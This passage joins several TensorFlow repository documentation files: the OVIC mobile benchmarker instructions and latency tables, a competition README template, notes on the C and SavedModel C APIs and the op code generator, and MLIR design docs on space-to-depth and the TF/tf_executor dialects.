for evaluating promising submissions.

### Running the benchmarker app

Make sure that you have followed instructions in
[Test your submissions](#test-your-submissions) to add your model to the
testdata folder and to the corresponding build rules.

Modify `tensorflow/lite/java/ovic/demo/app/OvicBenchmarkerActivity.java`:

*   Add your model to the benchmarker apk by changing `modelPath` and
    `testImagePath` to your submission and test image.

```
  if (benchmarkClassification) {
    ...
    testImagePath = "my_test_image.jpg";
    modelPath = "my_model.lite";
  } else {  // Benchmarking detection.
  ...
```

If you are adding a detection model, simply modify `modelPath` and
`testImagePath` in the else block above.

*   Adjust the benchmark parameters when needed:

You can change the length of each experiment, and the processor affinity below.
`BIG_CORE_MASK` is an integer whose binary encoding represents the set of used
cores. This number is phone-specific. For example, Pixel 4 has 8 cores: the 4
little cores are represented by the 4 less significant bits, and the 4 big cores
by the 4 more significant bits. Therefore a mask value of 16, or in binary
`00010000`, represents using only the first big core. The mask 32, or in binary
`00100000` uses the second big core and should deliver identical results as the
mask 16 because the big cores are interchangeable.

```
  /** Wall time for each benchmarking experiment. */
  private static final double WALL_TIME = 3000;
  /** Maximum number of iterations in each benchmarking experiment. */
  private static final int MAX_ITERATIONS = 100;
  /** Mask for binding to a single big core. Pixel 1 (4), Pixel 4 (16). */
  private static final int BIG_CORE_MASK = 16;
```

Note: You'll need ROOT access to the phone to change processor affinity.

*   Build and install the app.

```
bazel build -c opt --cxxopt=-Wno-all //tensorflow/lite/java/ovic/demo/app:ovic_benchmarker_binary
adb install -r bazel-bin/tensorflow/lite/java/ovic/demo/app/ovic_benchmarker_binary.apk
```

Start the app and pick a task by clicking either the `CLF` button for
classification or the `DET` button for detection. The button should turn bright
green, signaling that the experiment is running. The benchmarking results will
be displayed after about the `WALL_TIME` you specified above. For example:

```
my_model.lite: Average latency=158.6ms after 20 runs.
```

### Sample latencies

Note: the benchmarking results can be quite different depending on the
background processes running on the phone. A few things that help stabilize the
app's readings are placing the phone on a cooling plate, restarting the phone,
and shutting down internet access.

Classification Model | Pixel 1 | Pixel 2 | Pixel 4
-------------------- | :-----: | ------: | :-----:
float_model.lite     | 97      | 113     | 37
quantized_model.lite | 73      | 61      | 13
low_res_model.lite   | 3       | 3       | 1

Detection Model        | Pixel 2 | Pixel 4
---------------------- | :-----: | :-----:
detect.lite            | 248     | 82
quantized_detect.lite  | 59      | 17
quantized_fpnlite.lite | 96      | 29

All latency numbers are in milliseconds. The Pixel 1 and Pixel 2 latency numbers
are measured on `Oct 17 2019` (Github commit hash
[I05def66f58fa8f2161522f318e00c1b520cf0606](https://github.com/tensorflow/tensorflow/commit/4b02bc0e0ff7a0bc02264bc87528253291b7c949#diff-4e94df4d2961961ba5f69bbd666e0552))

The Pixel 4 latency numbers are measured on `Apr 14 2020` (Github commit hash
[4b2cb67756009dda843c6b56a8b320c8a54373e0](https://github.com/tensorflow/tensorflow/commit/4b2cb67756009dda843c6b56a8b320c8a54373e0)).

Since Pixel 4 has excellent support for 8-bit quantized models, we strongly
recommend you to check out the
[Post-Training Quantization tutorial](https://www.tensorflow.org/lite/performance/post_training_quantization).

The detection models above are both single-shot models (i.e. no object proposal
generation) using TfLite's *fast* version of Non-Max-Suppression (NMS). The fast
NMS is significant faster than the regular NMS (used by the ObjectDetectionAPI
in training) at the expense of about 1% mAP for the listed models.

### Latency table

We have compiled a latency table for common neural network operators such as
convolutions, separable convolutions, and matrix multiplications. The table of
results is available here:

*   https://storage.cloud.google.com/ovic-data/

The results were generated by creating a small network containing a single
operation, and running the op under the test harness. For more details see the
NetAdapt paper<sup>1</sup>. We plan to expand table regularly as we test with
newer OS releases and updates to Tensorflow Lite.

### Sample benchmarks

Below are the baseline models (MobileNetV2, MnasNet, and MobileNetV3) used to
compute the reference accuracy for ImageNet classification. The naming
convention of the models are `[precision]_[model
class]_[resolution]_[multiplier]`. Pixel 2 Latency (ms) is measured on a single
Pixel 2 big core using the competition server on `Oct 17 2019`, while Pixel 4
latency (ms) is measured on a single Pixel 4 big core using the competition
server on `Apr 14 2020`. You can find these models on TFLite's
[hosted model page](https://www.tensorflow.org/lite/guide/hosted_models#image_classification).

Model                               | Pixel 2 | Pixel 4 | Top-1 Accuracy
:---------------------------------: | :-----: | :-----: | :------------:
quant_mobilenetv2_96_35             | 4       | 1       | 0.420
quant_mobilenetv2_96_50             | 5       | 1       | 0.478
quant_mobilenetv2_128_35            | 6       | 2       | 0.474
quant_mobilenetv2_128_50            | 8       | 2       | 0.546
quant_mobilenetv2_160_35            | 9       | 2       | 0.534
quant_mobilenetv2_96_75             | 8       | 2       | 0.560
quant_mobilenetv2_96_100            | 10      | 3       | 0.579
quant_mobilenetv2_160_50            | 12      | 3       | 0.583
quant_mobilenetv2_192_35            | 12      | 3       | 0.557
quant_mobilenetv2_128_75            | 13      | 3       | 0.611
quant_mobilenetv2_192_50            | 16      | 4       | 0.616
quant_mobilenetv2_128_100           | 16      | 4       | 0.629
quant_mobilenetv2_224_35            | 17      | 5       | 0.581
quant_mobilenetv2_160_75            | 20      | 5       | 0.646
float_mnasnet_96_100                | 21      | 7       | 0.625
quant_mobilenetv2_224_50            | 22      | 6       | 0.637
quant_mobilenetv2_160_100           | 25      | 6       | 0.674
quant_mobilenetv2_192_75            | 29      | 7       | 0.674
quant_mobilenetv2_192_100           | 35      | 9       | 0.695
float_mnasnet_224_50                | 35      | 12      | 0.679
quant_mobilenetv2_224_75            | 39      | 10      | 0.684
float_mnasnet_160_100               | 45      | 15      | 0.706
quant_mobilenetv2_224_100           | 48      | 12      | 0.704
float_mnasnet_224_75                | 55      | 18      | 0.718
float_mnasnet_192_100               | 62      | 20      | 0.724
float_mnasnet_224_100               | 84      | 27      | 0.742
float_mnasnet_224_130               | 126     | 40      | 0.758
float_v3-small-minimalistic_224_100 | -       | 5       | 0.620
quant_v3-small_224_100              | -       | 5       | 0.641
float_v3-small_224_75               | -       | 5       | 0.656
float_v3-small_224_100              | -       | 7       | 0.677
quant_v3-large_224_100              | -       | 12      | 0.728
float_v3-large_224_75               | -       | 15      | 0.735
float_v3-large-minimalistic_224_100 | -       | 17      | 0.722
float_v3-large_224_100              | -       | 20      | 0.753

### References

1.  **NetAdapt: Platform-Aware Neural Network Adaptation for Mobile
    Applications**<br />
    Yang, Tien-Ju, Andrew Howard, Bo Chen, Xiao Zhang, Alec Go, Mark Sandler,
    Vivienne Sze, and Hartwig Adam. In Proceedings of the European Conference
    on Computer Vision (ECCV), pp. 285-300. 2018<br />
    [[link]](https://arxiv.org/abs/1804.03230) arXiv:1804.03230, 2018.
<!--
• This is a README.md template we encourage you to use when you release your model.
• There are general sections we added to this template for various ML models.
• You may need to add or remove sections depending on your needs.
-->

# Project Name

## Authors
The **1st place winner** of the **4th On-device Visual Intelligence Competition** ([OVIC](https://docs.google.com/document/d/1Rxm_N7dGRyPXjyPIdRwdhZNRye52L56FozDnfYuCi0k/edit#)) of Low-Power Computer Vision Challenge ([LPCVC](https://lpcv.ai/))

* Last name, First name ([@GitHubUsername](https://github.com/username))
* Last name, First name ([@GitHubUsername](https://github.com/username))
* Last name, First name ([@GitHubUsername](https://github.com/username))

## Description
<!-- Provide description of the model -->
The model submitted for the OVIC and full implementation code for training, evaluation, and inference

* OVIC track: Image Classification, Object Detection

## Algorithm
<!-- Provide details of the algorithms used -->

## Requirements
<!--
• Provide description of the model 
• Provide brief information of the algorithms used
-->

To install requirements:

```setup
pip install -r requirements.txt
```

## Pre-trained Models

| Model | Download | MD5 checksum |
|-------|----------|--------------|
| Model Name | Download Link (Size: KB) | MD5 checksum |

The model tar file contains the followings:
* Trained model checkpoint
* Frozen trained model
* TensorFlow Lite model

## Results

### [4th OVIC Public Ranked Leaderboard](https://lpcvc.ecn.purdue.edu/score_board_r4/?contest=round4)

#### Image Classification (from the Leaderboard)

| Rank | Username | Latency | Accuracy on Classified | # Classified | Accuracy/Time | Metric | Reference Accuracy |
|------|----------|---------|------------------------|--------------|---------------|--------|--------------------|
| 1 | Username | xx.x | 0.xxxx | 20000.0 | xxx | 0.xxxxx | 0.xxxxx |

 * **Metric**: Accuracy improvement over the reference accuracy from the Pareto optimal curve
 * **Accuracy on Classified**: The accuracy in [0, 1] computed based only on the images classified within the wall-time
 * **\# Classified**: The number of images classified within the wall-time
 * **Accuracy/Time**: The accuracy divided by either the total inference time or the wall-time, whichever is longer
 * **Reference accuracy**: The reference accuracy of models from the Pareto optimal curve that have the same latency as the submission

#### Object Detection

| Rank | Username | Metric | Runtime | mAP over time | mAP of processed |
|------|----------|--------|---------|---------------|------------------|
| 1 | Username | 0.xxxxx | xxx.x | xxx | xxx |

* **Metric**: COCO mAP computed on the entire minival dataset
* **mAP over time**: COCO mAP on the minival dataset divided by latency per image
* **mAP of processed**: COCO mAP computed only on the processed images

## Dataset
<!--
• Provide detailed information of the dataset used
-->

## Training
<!--
• Provide detailed training information (preprocessing, hyperparameters, random seeds, and environment) 
• Provide a command line example for training.
-->

Please run this command line for training.

```shell
python3 ...
```

## Evaluation
<!--
• Provide evaluation script with details of how to reproduce results.
• Describe data preprocessing / postprocessing steps
• Provide a command line example for evaluation.
-->

Please run this command line for evaluation.

```shell
python3 ...
```

## References
<!-- Link to references -->

## License
<!--
• Place your license text in a file named LICENSE.txt (or LICENSE.md) in the root of the repository.
• Please also include information about your license in this README.md file.
e.g., [Adding a license to a repository](https://help.github.com/en/github/building-a-strong-community/adding-a-license-to-a-repository)
-->

This project is licensed under the terms of the **Apache License 2.0**.

## Citation
<!--
If you want to make your repository citable, please follow the instructions at [Making Your Code Citable](https://guides.github.com/activities/citable-code/)
-->

If you want to cite this repository in your research paper, please use the following information.
# TensorFlow C API

- See [www.tensorflow.org/install/lang_c](https://www.tensorflow.org/install/lang_c)
- Nightly builds:
  - [Linux CPU-only](https://storage.googleapis.com/tensorflow-nightly/github/tensorflow/lib_package/libtensorflow-cpu-linux-x86_64.tar.gz)
  - [Linux GPU](https://storage.googleapis.com/tensorflow-nightly/github/tensorflow/lib_package/libtensorflow-gpu-linux-x86_64.tar.gz)
  - [MacOS CPU-only](https://storage.googleapis.com/tensorflow-nightly/github/tensorflow/lib_package/libtensorflow-cpu-darwin-x86_64.tar.gz)
# Experimental C++ Ops

The C++ files in this directory (***\*_ops.h*** and ***\*_ops.cc***) are
autogenerated from the registered Op and API definitions.

To regenerate them, run the script in this directory, `update_cpp_ops.sh`, with
no arguments. This script will overwrite the existing ops in-place at
***tensorflow/c/experimental/ops/\*_ops.{cc,h}***.

Run this `update_cpp_ops.sh` script when Op definitions change in the registry.

To generate additional operators, extend the lists in this script. Note that
category names correspond to generated source file names, and should be
consistent with the original source files registering each operator. For example
since `REGISTER_OP("MatMul")` appears in ***core/math_ops.cc***, the "MatMul"
operator in the script should be in the "math" category, and it will be
generated in the output file `c/experimental/ops/math_ops.cc`.

Running this script should be a no-op, generating identical code other than
formatting (i.e., line wrapping).
# TensorFlow Op CodeGen Machinery (Experimental)

## Usage

```
usage: generate_cpp  [flags]  OpName1 [OpName2 ...]
Flags:
    --help=false                        bool    Print this help message.
    --category=""                       string  Category for generated ops (e.g. 'math', 'array').
    --namespace=""                      string  Compact C++ namespace, default is 'tensorflow::ops'.
    --output_dir=""                     string  Directory into which output files will be generated.
    --source_dir=""                     string  The tensorflow root directory, e.g. 'tensorflow/' for in-source include paths. Any path underneath the tensorflow root is also accepted.
    --api_dirs=""                       string  Comma-separated list of directories containing API definitions.
```

## Design

### Generator Framework

The generator framework is a loose Model/View/Controller arrangement:

The *Model* classes live in the ***model/*** directory. They are representations
of the `OpDef` and `ApiDef` protos, normalized and resolved.

> _For example, an `OpDef` proto's `ArgDef` members contain a type string, which
> must be dereferenced to an `AttrDef` by name to determine its type. This
> `AttrDef` proto message in turn contains a type string which may need to be
> parsed as "list(type)". Other `AttrDef` messages are not types, but instead
> argument-like modifiers. In contrast, the generator model `ArgSpec` contains a
> resolved `ArgType` which provides a boolean `is_list()` method directly, and
> the model `OpSpec` provides a list of only the argument-like attributes. In
> addition to convenience, this should aid consistency between generated code in
> each target language._

The *Controller* is in the ***common/*** directory. It is the workhorse used by
the language generators; it digests the Op registry and API definitions to build
the model and provides utilities for the language generators.

The *View* and rendering classes map the language-independent Model classes
(`OpSpec`, `ArgSpec`, `AttrSpec`, etc.) to language-specific `SourceCode`. The
framework does not impose any design on the language-specific generators, but
provides some utilities, and the C++ generator is a complete example.

### C++ Generator

The `CppGenerator` class is the interface to the `cpp/` language directory.
Given a config, it can generate source code for a .cc or .h file as a string or
write it to a target file.

The `CppFileRenderer` is the main renderer used by the generator; it renders an
entire file. The `CppConfig` defines if it is operating in header or source
mode.

"Views" are stateless and intended to be low-level building blocks: a direct
language-specific representation of the model classes. For example, an `ArgView`
is initialized from an `ArgSpec` (which was created initially from an `ArgDef`
proto message). Where they may have some similar methods between the model and
view, the view methods are language-specific.

For instance, the C++ generator's `ArgView::VariableName()` method is an
language-formatted name usable as a variable representing the model `ArgSpec`
object. In contrast, the `ArgSpec::name()` method in the model refers to the
canonical name of the object in the proto.

Where views are a representation of the *input* model, in the C++ generator,
"renderers" then use these views to build the *output* `SourceCode`; Renderers
understand the language at the statement/directive level and target a functional
section of the output, such as a block comment or an entire method or file.

Other differences between views and renderers:

*   Renderers are stateful, modifying a referenced SourceCode. Views are
    stateless and their public methods are all const, returning strings.
*   Renderers are context-dependent, e.g. a method signature will include
    default values when in "declaration" mode but not "definition" mode. A view
    of some argument object simply knows its default value and does not care the
    context.
*   In terms of dependencies, `Renderers` use `Views` and other `Renderers`.
    However, `Renderers` do **not** reference the model directly (e.g.
    `OpSpec`). This is because if a renderer needs to reference part of the
    model, it should get a language specific representation.

### Extending to Additional Languages

The design for the C++ generator should apply to other languages, and the
underlying generator framework (the model and controller) try to be agnostic. In
fact, some elements of the C++ design could be formalized (such as the
rendering/view framework) or re-used (e.g. `cpp:Renderer` could likely be shared
with C and Java as a common C-style language renderer base class).

Abstracted and condensed from the C++ generator, the overall control flow could
be described as follows:

From main() in *generate_lang_main.cc*:

*   Call `tensorflow::port::InitMain` and parse any flags
*   Initialize config objects (e.g. `PathConfig`, `LangConfig` from flags)
*   Initialize a new `LangGenerator` from these config objects
*   Call this generator to create/write `SourceCode` to a file

In class `LangGenerator` in *lang_generator.cc*:

*   Initialize a new `Controller` from the config objects
*   Call this controller to build the Op models (`OpSpec`)
*   Initialize a new language-specific `View` for each model object
*   Create a blank `SourceCode` rendering target (for each output file)
*   Initialize a new `LangFileRenderer` from this target source code, the model
    `View` objects, and config objects
*   Call this renderer to generate the target `SourceCode`

The dependencies are as follows:

*   `lang::Generator` depends on `Controller`, `Model`, `lang::Renderers`,
    `lang::Views`
*   `lang::Renderer` depends on `lang::View` (and `lang::Renderer` peers)
*   `lang::View` depends on the model (e.g. `OpSpec`) (and `lang::View` peers)
# Tensorflow C SavedModel API

## Overview

These are the new experimental C SavedModel APIs for loading and running
SavedModels in a TF2-idiomatic fashion. See
[RFC 207](https://github.com/tensorflow/community/pull/207) for additional
context.

The directory structure is as follows:

```none
saved_model/

  public/

  internal/

  core/

```

## saved_model/public

`saved_model/public` is intended to house *only the public headers* of the
SavedModel C API.

These headers:

1. declare opaque C types (like `TF_SavedModel`),

2. declare the functions that operate on these types (like `TF_LoadSavedModel`).

Once they leave experimental, these APIs should be considered stable for use
by external clients.

These headers are in a separate directory to make it obvious to clients which
headers they should depend on, and which headers are implementation details.
Separating these public headers by directory also allow future programmatic
checks to ensure that TF public headers only `#include` other public TF headers.

## saved_model/internal

`saved_model/internal` is the "glue" between the C API and the internal C++
implementation.

Its role is to:

1. implement the C API functions declared in `saved_model/public`

2. define the C API types declared in `saved_model/public`

The files fulfilling 1. are named `*.cc` (eg: `concrete_function.cc`), while
the files fulfilling 2. are `*type.h` (eg: `concrete_function_type.h`).

The headers exposing the internal implementation of the opaque C types are only
visible to other implementors of the C API. This is similar to how other
TF C API implementations use `tf_status_internal.h` (to extract the underlying
`tensorflow::Status`). All other targets in this directory are private.

## saved_model/core

`saved_model/core` contains pure C++ "Classes" underlying the C API types
in `saved_model/public/`. These are implementation
details subject to change, and have limited visibility to implementors only.
This is the bottom-most layer of the `C++ -> C -> C++` sandwich.
# TensorFlow Saved Model C API

## Small ConcreteFunction Example

The following example loads a saved model from `"/path/to/model"` and
executes a function `f` taking no arguments and returning one single
value (error checking is omitted for simplicity):

```c
TF_Status* status = TF_NewStatus();
TFE_ContextOptions* ctx_options = TFE_NewContextOptions();
TFE_Context* ctx = TFE_NewContext(ctx_options, status);

TF_SavedModel* saved_model = TF_LoadSavedModel("/path/to/model", ctx, status);
TF_ConcreteFunction* f = TF_GetSavedModelConcreteFunction(saved_model, "f", status);
TFE_Op* op = TF_ConcreteFunctionMakeCallOp(f, NULL, 0, status);

TFE_TensorHandle* output;
int nouts = 1;
TFE_Execute(op, &output, &nouts, status);

TFE_DeleteTensorHandle(output);
TFE_DeleteOp(op);
TFE_DeleteSavedModel(saved_model);
TFE_DeleteContext(ctx);
TFE_DeleteContextOptions(ctx_options);
TF_DeleteStatus(status);
```
# MLIR dialects and utilities for TensorFlow, TensorFlow Lite and XLA.

This module contains the MLIR
([Multi-Level Intermediate Representation](https://mlir.llvm.org))
dialects and utilities for

1. TensorFlow
2. XLA
3. TF Lite

See [MLIR's website](https://mlir.llvm.org) for complete documentation.

## Getting started

Building dialects and utilities here follow the standard approach using
`bazel` as the rest of TensorFlow.

### Using local LLVM repo

To develop across MLIR core and TensorFlow, it is useful to override the repo
to use a local version instead of fetching from head. This can be achieved as
below but note, the BUILD files are not automatically generated from or CMake
used, so if your change requires a BUILD file change (or you are using a
different version of LLVM than set in tensorflow/workspace.bzl's LLVM_COMMIT)
then manual BUILD file changes may be required.

```sh
LLVM_SRC=...

# Create basic workspace file
echo 'workspace(name = "llvm-project")' > $LLVM_SRC/WORKSPACE
# and copy over the bazel BUILD files.
cp third_party/llvm/llvm.autogenerated.BUILD $LLVM_SRC/llvm/BUILD
cp third_party/mlir/BUILD $LLVM_SRC/mlir
cp third_party/mlir/test.BUILD $LLVM_SRC/mlir/test/BUILD

bazel build --override_repository=llvm-project=$LLVM_SRC \
  -c opt tensorflow/compiler/mlir:tf-opt
```
# Automatic Space to Depth Transform in MLIR Bridge

Author: wangtao@, yuanzx@, hinsu@, lyandy@, chiachenc@, aminim@, jpienaar@,
dehao@

## TL;DR

_This document describes an automatic space to depth transform for the first
convolution in the new MLIR bridge to improve MXU efficiency of low batch size
convolutions._

## Background

For image models, the first layer is usually not MXU friendly as it has a
feature size of 3. This results in poor performance especially with small batch.

One way to address this issue is to use the `space-to-depth` transform. This
optimization tiles the 2x2 space dimensions to the feature dimension so that the
feature dimension becomes 3\*4=12, which is more MXU friendly. In order to make
this optimization efficient, the shape of the weight needs to be padded and
transposed to the shape that the convolution emitter expects. The input also
needs to be transposed on the host and padded on the device to make the
convolution efficient. Although a 2x2 space-to-depth transform works only when
the first convolution has a stride of 2, many image models, ResNet-like in
particular, have a stride-2 convolution in the first layer.

Space to depth helped models such as MaskRCNN, SSD and I3D gain more than 2X
speedup and reduce memory usage in the first convolution.

The first convolution in many image models, including ResNet or ResNet-like, is
a (kernel=7, stride=2) 2D convolution. The input of the convolution is images,
which usually has RGB channels. The input of this first convolution is of shape
[batch\_size, height, width, 3] and the kernel size is [kernel\_size,
kernel\_size, 3, out\_channel]. Space to depth is to transform this first
convolution's input to [batch\_size, height // stride, width // stride, 3 \*
stride \* stride] and the kernel to [kernel\_size // stride, kernel\_size //
stride, 3 \* stride \* stride, out\_channel] to improve TPU MXU utilization.


This optimization can be automatically done by the graph optimizer where weight
transformation is done at variable loading time and the input transformation is
done for every inference invocation. A further optimization can fuse this (at
host) with the double transpose to minimize memory operation on host.

## Proposed Method

**block\_size** is defined as the number of space sizes transformed to the depth
dimension. _stride % block\_size == 0_ and _stride >= block\_size_ is required
to do the transform. There are three parts of automatically space to depth
transformation:

1.  Transform input on the host.

    Space-to-depth performs the following permutation, which is equivalent to
    `tf.nn.space_to_depth`.

    ```python
    images = tf.reshape(images, [batch, h // block_size, block_size,
                               w // block_size, block_size, c])
    images = tf.transpose(images, [0, 1, 3, 2, 4, 5])
    images = tf.reshape(images, [batch, h // block_size, w // block_size,
                               c * (block_size ** 2)])
    ```

    `SpaceToDepthOp` can be called on the host to perform the transform.

1.  Weight Transformation

    Weight Transformation is similar to Input Transform. Weight transform is
    needed to apply space to depth optimization for a model that needs to load a
    pre-train checkpoint. This transform can be done on the host or TPU device
    based on the cost. As the size of the kernel is relatively small, this won't
    add additional cost to TPU device time. Below is the logic to transform the
    kernel of shape [7, 7, 3, 64] to [4, 4, 12, 84].

    ```python
    conv0 = tf.compat.v1.layers.Conv2D(
     filters=filters,
     kernel_size=kernel_size,
     strides=2,
     padding=('SAME' if strides == 1 else 'VALID'),
     use_bias=False,
     kernel_initializer=tf.variance_scaling_initializer(),
     data_format=data_format)

    # Use the image size without space-to-depth transform as the input of conv0.
    batch_size, h, w, channel = inputs.get_shape().as_list()
    conv0.build([
     batch_size, h * space_to_depth_block_size, w * space_to_depth_block_size,
     channel // (space_to_depth_block_size**2)
    ])

    kernel = conv0.weights[0]
    # [7, 7, 3, 64] --> [8, 8, 3, 64]

    kernel = tf.pad(
     kernel,
     paddings=tf.constant([[1, 0], [1, 0], [0, 0], [0, 0]]),
     mode='CONSTANT',
     constant_values=0.)
    # Transform kernel follows the space-to-depth logic: https://www.tensorflow.org/api_docs/python/tf/nn/space_to_depth)
    kernel = tf.reshape(
     kernel,
     [4, space_to_depth_block_size, 4, space_to_depth_block_size, 3, filters])

    kernel = tf.transpose(kernel, [0, 2, 1, 3, 4, 5])
    kernel = tf.reshape(kernel, [4, 4, int(channel), filters])
    kernel = tf.cast(kernel, inputs.dtype)
    ```

    If kernel\_size % block\_size != 0, padding is needed for the weight before
    transform, input of Convolution needs to be padded as well.

1.  Rewrite the first convolution

    Need to rewrite the first convolution's shape of input from [batch\_size,
    height, width, 3] to [batch\_size, height // block\_size, width //
    block\_size, 3 \* block\_size \* block\_size] and kernel shape from
    [kernel\_size, kernel\_size, 3, out\_channel] to [kernel\_size //
    block\_size, kernel\_size // block\_size, 3 \* block\_size \* block\_size,

    This is the proposed workflow for automatic space to depth transformation.
    All the transformations will be triggered in a MLIR SpaceToDepthRewritePass,
    this Rewrite pass will be triggered before TPURewrite so that no metadata
    rewrite is needed.

*   First, the rewrite pass will walk through all the convolutions in func of
    tf\_device::LaunchOp and get the first Convolution and its shape;
*   Second, the rewrite pass will apply transformations to the first
    convolution, the padding before the first convolution, first convolution's
    filters and its Conv2DBackPropFilter;
*   At last, the rewrite pass will insert SpaceToDepthOp after IteratorGetNext
    where the iterator's result has the same shape as the first convolution's
    input.

#### Pseudo MLIR code before and after RewritePass

```mlir
// Example: original program:
//
module {
   func @while_body {
     %input = "tf.IteratorGetNext"(...) {device = "/CPU:0"}:
              -> tensor<2x224x224x3xf32>
     %device_launch = "tf_device.launch_func"(%input,...) {func = @_func,...)
     return ...
   }
   func @_func(%input: tensor<2x224x224x3xf32>,
               %filter: tensor<7x7x3x64xf32>) {
     %6 = "tf.Conv2D"(%input, %filter)  {strides = [1, 2, 2, 1]}:
                 (tensor<2x230x230x3xf32>, tensor<7x7x3x64xf32>) ->
      tensor<2x112x112x64xf32>
   }
}

// With this pass, the program will be transformed into:
module {
   func @while_body {
     %input = "tf.IteratorGetNext"(...) {device = "/CPU:0"}
               -> tensor<2x224x224x3xf32>
     %space_to_depth = "tf.SpaceToDepth"(%input) {block_size = 2, ...}:
        (tensor<2x224x224x3xf32>) -> tensor<2x112x112x12xf32>
     %device_launch = "tf_device.launch_func"(%space_to_depth,...) {func = @_func,...)
     return ...
   }
   func @_func(%input: tensor<2x112x112x12xf32>,
              %filter: tensor<7x7x3x64xf32>) {
     %filter_transform = "tf.Pad/tf.Transpose/tf.Reshape"(%filter):
       tensor<7x7x3x64xf32>) -> tensor<4x4x12x64xf32>
     %conv = "tf.Conv2D"(%input, %filter_transform) {strides = [1, 1, 1, 1]}:
       (tensor<2x112x112x12xf32>, tensor<4x4x12x64xf32>) ->
       tensor<2x112x112x64xf32>
   }
}
```

### SpaceToDepth Trigger Condition

Space to depth will only be triggered when batch size is small and the first
convolution channel size is small. Stride of the convolution should be bigger
than 1 as well. A cost model will be built that takes input shape and host cost
into consideration to trigger the transformation. There will be a flag to
disable this feature as well.

### Fuse SpaceToDepth with Automatic Double Transpose

The transpose and reshape op in SpaceToDepthOp on TPU hosts may cause image
model to be infeed bound. To reduce host time, space to depth transform can be
fused with `automatic double transpose` to reduce extra overhead on the host.

### Extend from Conv2D to Conv3D

SpaceToDepth not only helps with 2D image models but also 3D image models such
as I3D. The plan is to apply automatic space to depth for Conv2D as the first
step. After Conv2D is well tested, will generalize this technique to Conv3D.
# TensorFlow MLIR Dialects

## Objective

[MLIR](https://medium.com/tensorflow/mlir-a-new-intermediate-representation-and-compiler-framework-beba999ed18d)
is the intermediate representation and compiler framework we are investing in to
build the compiler infrastructure for TensorFlow. The representation for
TensorFlow exposed in this document will be what future high-level
transformations will operate on.

We make use of two different dialects to model TensorFlow graphs in MLIR: first
the `tf_executor` dialect that represents the execution model of the TensorFlow
executor (e.g. control dependencies, deadness propagation) and the `tf` dialect
which represent the regular operations in a TensorFlow graph (the ones that
don’t have special contract with the executor).

One intent of this design is that TensorFlow 2.x features can choose to target
just the `tf` dialect, allowing us to phase out the `tf_executor` dialect in
subsequent TensorFlow releases. The combination of the two dialects allows to
represent arbitrary existing TensorFlow graphs.

The representation in this document does not address the specific needs of
accelerators or "custom backends" for TensorFlow. We plan to provide a generic
infrastructure for replacing the TF/XLA bridge with a more flexible and reusable
system across targets. A later design proposal will address these aspects. Also
this representation does not address shape inference, an independent design
exploration is being conducted separately at the moment.

## TensorFlow Dialect

The TensorFlow dialect in MLIR is an open dialect (it allows operations that
MLIR doesn't know about) that can contain any TensorFlow operation that does not
have a specific handling by the executor. These operations don’t operate on dead
values, don’t have control dependencies, and execute conceptually in program
order. The form used in this dialect aligns with the direction taken by
TensorFlow 2.0 with tf.function and autograph, as well as with the needs of
other frontends. This should ease the development of analyses and
transformations: optimizations operate on a simpler semantics and local graph
transformations can be validated in a local scope. Simple patterns like folding
`x-x` into a constant 0 do not need to update any control dependencies. It
should also be easily lowerable towards multiple accelerators and heterogeneous
systems in general.

Operations in this dialect usually operate on tensor and scalar types defined in
the standard dialect. The extra defined types are specific to TensorFlow: `QINT`
types like !tf_type.qint8 (etc), `QUINT` types like !tf_type.quint8, all of the
`REF` types like !tf_type.uint8ref, as well as !tf_type.string,
!tf_type.resource, and !tf_type.variant which correspond to the tensorflow types
of the same name.

### Example:

Below is an example of a function operating on the TensorFlow dialect:

```mlir {.mlir}
/// This is a regular function, taking inputs by value and returning a new value.
/// The body is a regular CFG.
func some_function(%input : tensor<*xf32>) -> tensor<*xf32> {
  // TensorFlow operations are not variadic: this `tf.add` operation always
  // takes two inputs and returns a single output. This simplifies
  // pattern-matching, verification and rewriting.
  %added = tf.Add %input, %input : tensor<*xf32>
  // Operations have sequential execution semantics in a basic block, there are
  // no control dependencies.  The compiler can reorder operations according to
  // the as-if rule ( https://en.wikipedia.org/wiki/As-if_rule ).
  %three = arith.constant splat<tensor<f32>, 3.0>
  %mul = tf.Mul %input, %three : (tensor<*xf32>, tensor<f32>) -> tensor<*xf32>

  // Only control flow v2 is supported in TF dialect.
  // The tf.If operation takes three functions that accept the same
  // arguments: the condition returns a bool and the two branches must return
  // the same type, which is also the return of the tf.If.
  %value = "tf.If”(%added, %mul)
             {cond: @cond_func, true_branch: @func_foo, false_branch: @func_bar}
                 : (tensor<*xf32>, tensor<*xf32>) -> tensor<*xf32>

  return %value : tensor<*xf32>
}
```

## TensorFlow Executor Dialect

The `tf_executor` dialect is intended to model the current TensorFlow executor
semantics and (when combined with the `tf` dialect) can represent arbitrary
TensorFlow 1.x and 2.x graphs. As such it follows the executor model, including
deadness propagation, concurrent semantics, and control dependencies. The
`tf_executor` dialect defines two dialect-specific types:

*   `!tf_executor.control` to represent control dependencies.
*   `!tf_executor.token` to represent the pair of operations modeling
    NextIteration operation.

The `tf_executor` dialect is closed (operations are all known to MLIR) as there
are only 8 TensorFlow ops with specific graph executor behavior and 4 additional
operations to represent islands of predictability.

This dialect models the TensorFlow executor semantics; as such, a large part of
the defined operations are mirroring the
[TensorFlow Control Flow Ops](https://www.tensorflow.org/api_docs/cc/group/control-flow-ops)
and
[implement Control Flow In TensorFlow](http://download.tensorflow.org/paper/white_paper_tf_control_flow_implementation_2017_11_1.pdf).
Also, almost all the operations accept a variadic number of control tokens and
return an extra control token as output. Except for `tf_executor.Merge` and
`tf_executor.ControlTrigger`, operations are propagating deadness: if any of the
input (control and non-control) is dead, all the outputs (control and
non-control) are dead as well. For `tf_executor.Merge`, the output is dead only
when either an input control token is dead or all of the regular inputs are
dead. For `tf_executor.ControlTrigger`, a live control output is always produced
even when some control inputs are dead.

### `tf_executor.graph` Operation

The `tf_executor.graph` operation contains a region with a single block that
lists the operations in a TensorFlow graph. The operations are topologically
sorted in-order (no cycles are allowed in the SSA values). The execution model
for operations in this block follows the TensorFlow executor semantics:

1.  Operations that don’t have any transitive dependencies through the SSA
    def/use chains may be executed in parallel
    (`tf_executor.NextIteration.Source` is the exception).
2.  SSA values in this block can be implicitly dead. This means that every SSA
    value defined in a `tf_executor.graph` can be considered implicitly wrapped
    in a conceptual `dead_or<T>` structure, and includes a runtime flag
    indicating if the value is dead or present. Operations may have special case
    handling of dead values.
3.  Operations in this dialect return a value of type `!tf_executor.control` as
    last returned value (exceptions are `tf_executor.NextIteration.sink` and
    `tf_executor.fetch` which don’t return any value).

The `tf_executor.graph` op only allows specific `tf_executor` dialect operations
